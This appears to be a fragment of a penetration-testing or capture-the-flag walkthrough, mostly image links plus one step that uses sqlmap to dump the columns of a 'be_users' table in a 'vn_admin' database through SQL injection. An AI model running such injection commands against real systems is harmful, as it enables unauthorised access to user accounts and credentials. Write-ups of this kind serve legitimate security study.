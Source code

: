 ![image18](../resources/025069d7572e499bb4b828bd0141e780.png)

- **Dump columns for table be_users**
  
```bash
sqlmap -r request --batch -D vn_admin -T be_users --columns

```
